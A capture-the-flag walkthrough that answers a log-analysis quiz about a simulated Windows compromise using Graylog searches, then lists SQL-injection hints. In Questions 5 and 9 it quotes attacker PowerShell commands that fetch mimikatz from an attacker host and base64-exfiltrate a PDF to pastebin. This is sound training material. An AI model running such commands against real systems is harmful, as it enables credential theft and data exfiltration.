 ## Problem Statement:

> 9) Retrieve Scraps of Paper from Server  
> Difficulty: 4/5  
> Gain access to the data on the Student Portal server and retrieve the paper scraps hosted there. What is the name of Santa's cutting-edge sleigh guidance system? For hints on achieving this objective, please visit the dorm and talk with Pepper Minstix.


===============================================================================
## Solution(hint):

First let's visit Pepper Minstix in the _Dorm_ for the hint.  
He needs us to complete the Incidence Response form using the Graylog instance.

hint given for this sub-problem:

> [Graylog Docs](http://docs.graylog.org/en/3.1/pages/queries.html)  
> (Events and Sysmon)

Let's get into the terminal:

![](./res/pic1.png)

Bottom right is the Incidence Response form to complete.  
Login using the following credentials:  
> username: elfustudent  
> password: elfustudent


### Question 1:  
> What is the full-path + filename of the first malicious file downloaded by Minty?

Search in all messages and without time filter.  
search: `UserAccount:minty AND EventID:1 AND Download*`  and sort by earliest timestamp

Answer: **C:\Users\minty\Downloads\cookie_recipe.exe**

### Question 2:  
> The malicious file downloaded and executed by Minty gave the attacker remote access to his machine. What was the ip:port the malicious file connected to first?

Search: `ProcessImage:C\:\\Users\\minty\\Downloads\\cookie_recipe.exe AND _exists_:DestinationIp`

Answer: **192.168.247.175:4444**

### Question3:  
> What was the first command executed by the attacker?

Search: `ParentProcessImage:C\:\\Users\\minty\\Downloads\\cookie_recipe.exe`  
Follow the CommandLine output.

Answer: **whoami**

### Question 4:  
> What is the one-word service name the attacker used to escalate privileges?

Continue search: `ParentProcessImage:C\:\\Users\\minty\\Downloads\\cookie_recipe.exe`  
Further down the timestamp will find Invoke-WebRequest to download another .exe and start webexservice.

Answer: **webexservice**

### Question 5:  
> What is the file-path + filename of the binary ran by the attacker to dump credentials?

Attacker has download cookie_recipe2.exe, so we pivot from cookie_recipe2.exe.  
Search: `ParentProcessImage:C\:\\Users\\minty\\Downloads\\cookie_recipe2.exe`  
Down the timestamp we will see a command line:  
`C:\Windows\system32\cmd.exe /c "Invoke-WebRequest -Uri http://192.168.247.175/mimikatz.exe -OutFile C:\cookie.exe"`  
Mimikatz is used to dump credentials.

Answer: **C:\cookie.exe**

### Question 6:  
> The attacker pivoted to another workstation using credentials gained from Minty's computer. Which account name was used to pivot to another machine?

Search : `EventID: 4624 AND SourceNetworkAddress:192.168.247.175`  
EventID: 4624 is generated when there is successful network login

Answer: **alabaster**

### Question 7:  
> What is the time ( HH:MM:SS ) the attacker makes a Remote Desktop connection to another machine?

search `SourceNetworkAddress:192.168.247.175 AND LogonType: 10`  
LogonType:10 refers to RDP login.  
Look for EventID:4624, as 4625 is failed login.

Answer: **06:04:28**

### Question 8:  
> The attacker navigates the file system of a third host using their Remote Desktop Connection to the second host. What is the SourceHostName,DestinationHostname,LogonType of this connection?

At RDP login, the hostname was elfu-res-wks2.  
Search: `SourceHostName: elfu-res-wks2` --reveals a logonType:3 to elfu-res-wks3.

Answer: **elfu-res-wks2,elfu-res-wks3,3**

### Question 9:  
> What is the full-path + filename of the secret research document after being transferred from the third host to the second host?

Continue search: `UserAccount: alabaster`  
Reveals a command line:  
`C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest -Uri https://pastebin.com/post.php -Method POST -Body @{ "submit_hidden" = "submit_hidden"; "paste_code" = $([Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\alabaster\Desktop\super_secret_elfu_research.pdf"))); "paste_format" = "1"; "paste_expire_date" = "N"; "paste_private" = "0"; "paste_name"="cookie recipe" }`

Answer: **C:\Users\alabaster\Desktop\super_secret_elfu_research.pdf**

### Question 10:  
> What is the IPv4 address (as found in logs) the secret research document was exfiltrated to?

Continuing from previous question, look for DestinationIP.

Answer: **104.22.3.84**


## Solution(main):

Solving the hint problem will give us the following hints:

> [SQL Injection from OWASP](https://www.owasp.org/index.php/SQL_Injection)  
> [Sqlmap Tamper Scripts](https://pen-testing.sans.org/blog/2017/10/13/sqlmap-tamper-scripts-for-the-win)




